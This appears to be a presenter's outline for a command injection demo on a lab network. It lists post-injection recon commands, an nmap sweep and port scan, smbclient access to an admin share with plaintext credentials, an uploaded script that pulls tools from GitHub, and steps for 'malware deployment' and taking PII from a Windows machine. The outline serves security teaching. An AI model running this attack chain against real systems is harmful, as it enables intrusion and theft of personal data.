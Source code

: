 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=================
Show rest of demo and malware deployment.
	Execute pii script
	Show pii data pulled from windows machine
	


Wrap up:
========

Narrative